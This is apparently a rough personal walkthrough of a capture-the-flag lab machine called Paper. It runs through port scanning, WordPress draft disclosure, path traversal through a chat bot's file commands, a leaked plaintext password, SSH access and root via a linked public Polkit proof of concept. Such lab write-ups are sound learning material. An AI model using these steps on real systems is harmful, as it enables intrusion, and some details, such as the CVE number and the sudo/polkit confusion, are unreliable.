

# Nmap 

nmap -sC -sV -oA nmap/paper -v -e tun0 10.10.11.143 

```
Nmap scan report for 10.10.11.143 
Host is up (0.18s latency). 
Not shown: 997 closed tcp ports (reset) 
PORT    STATE SERVICE  VERSION 
22/tcp  open  ssh      OpenSSH 8.0 (protocol 2.0) 
| ssh-hostkey:  
|   2048 10:05:ea:50:56:a6:00:cb:1c:9c:93:df:5f:83:e0:64 (RSA) 
|   256 58:8c:82:1c:c6:63:2a:83:87:5c:2f:2b:4f:4d:c3:79 (ECDSA) 
|_  256 31:78:af:d1:3b:c4:2e:9d:60:4e:eb:5d:03:ec:a0:22 (ED25519) 
80/tcp  open  http     Apache httpd 2.4.37 ((centos) OpenSSL/1.1.1k mod_fcgid/2.3.9
) 
| http-methods:  
|   Supported Methods: HEAD GET POST OPTIONS TRACE 
|_  Potentially risky methods: TRACE 
|_http-title: HTTP Server Test Page powered by CentOS 
|_http-generator: HTML Tidy for HTML5 for Linux version 5.7.28 
|_http-server-header: Apache/2.4.37 (centos) OpenSSL/1.1.1k mod_fcgid/2.3.9 
443/tcp open  ssl/http Apache httpd 2.4.37 ((centos) OpenSSL/1.1.1k mod_fcgid/2.3.9
) 
| http-methods:  
|   Supported Methods: HEAD GET POST OPTIONS TRACE 
|_  Potentially risky methods: TRACE 
|_http-title: HTTP Server Test Page powered by CentOS 
|_http-generator: HTML Tidy for HTML5 for Linux version 5.7.28 
| ssl-cert: Subject: commonName=localhost.localdomain/organizationName=Unspecified/
countryName=US 
| Subject Alternative Name: DNS:localhost.localdomain 
| Issuer: commonName=localhost.localdomain/organizationName=Unspecified/countryName
```

## Enum 

#Website after adding hosts /etc/hosts


localhost.localdomain


using burpsuit on the website on port 80 

we get 


#add office.paper to /etc/hosts


Looks like wordpress we try to login


# Usernames_wordpress
wpscan --url http://office.paper -e u1-100


Wordpress 5.2.3
https://www.acunetix.com/vulnerabilities/web/wordpress-5-2-x-multiple-vulnerabilities-5-2-5-2-3/


So by adding ?static=1

we get this result


# Secret Registration URL of new Employee chat system
http://chat.office.paper/register/8qozr226AhkCHZdyY
<Use this Link so set up an account after you add chat.office.paper to /etc/hosts>


# I am keeping this draft unpublished, as unpublished drafts cannot be accessed by outsiders. I am not that ignorant, Nick.


#add chat.office.paper to /etc/passwd


#General 


#Get files from Bot
recyclops file <file>

#Get list from Bot 
recyclops list<file> 

Lets escape from <sale/>

list ../

 Fetching the directory listing of ../hubot
total 2292
drwx------ 8 dwight dwight 4096 Sep 16 07:57 .
drwx------ 11 dwight dwight 294 Feb 13 17:43 ..
-rw-r--r-- 1 dwight dwight 0 Jul 3 2021 \
srwxr-xr-x 1 dwight dwight 0 Jul 3 2021 127.0.0.1:8000
srwxrwxr-x 1 dwight dwight 0 Jul 3 2021 127.0.0.1:8080
drwx--x--x 2 dwight dwight 36 Sep 16 07:34 bin
-rw-r--r-- 1 dwight dwight 258 Sep 16 07:57 .env
-rwxr-xr-x 1 dwight dwight 2 Jul 3 2021 external-scripts.json
drwx------ 8 dwight dwight 163 Jul 3 2021 .git
-rw-r--r-- 1 dwight dwight 917 Jul 3 2021 .gitignore
-rw-r--r-- 1 dwight dwight 1387093 Feb 13 18:12 .hubot.log
-rwxr-xr-x 1 dwight dwight 1068 Jul 3 2021 LICENSE
drwxr-xr-x 89 dwight dwight 4096 Jul 3 2021 node_modules
drwx--x--x 115 dwight dwight 4096 Jul 3 2021 node_modules_bak
-rwxr-xr-x 1 dwight dwight 1062 Sep 16 07:34 package.json
-rwxr-xr-x 1 dwight dwight 972 Sep 16 07:26 package.json.bak
-rwxr-xr-x 1 dwight dwight 30382 Jul 3 2021 package-lock.json
-rwxr-xr-x 1 dwight dwight 14 Jul 3 2021 Procfile
-rwxr-xr-x 1 dwight dwight 5044 Jul 3 2021 README.md
drwx--x--x 2 dwight dwight 193 Jan 13 10:56 scripts
-rwxr-xr-x 1 dwight dwight 100 Jul 3 2021 start_bot.sh
drwx------ 2 dwight dwight 25 Jul 3 2021 .vscode
-rwxr-xr-x 1 dwight dwight 29951 Jul 3 2021 yarn.lock


export ROCKETCHAT_PASSWORD=Queenofblad3s!23

#lets try to Login with SSH


cd /dev/shm

download linpeas.sh
https://github.com/carlospolop/PEASS-ng/releases/tag/20220213

send it over to the machine 


next make the script excecutable 

chmod +x linpeas.sh and now run linpeas.
./linpeas.sh

 # PrivEs > Root
  
#linpeas results


linpeas shows that sudo version is vuln. 

https://pythonrepo.com/repo/Almorabea-Polkit-exploit
I found this article it was a poc 
here is the github link for the poc. 
https://github.com/Almorabea/Polkit-exploit

now send CVE-2021-3569.py to the machine and run exploit. 

  

python3 -m http.server 8998
  
We  are Root
  
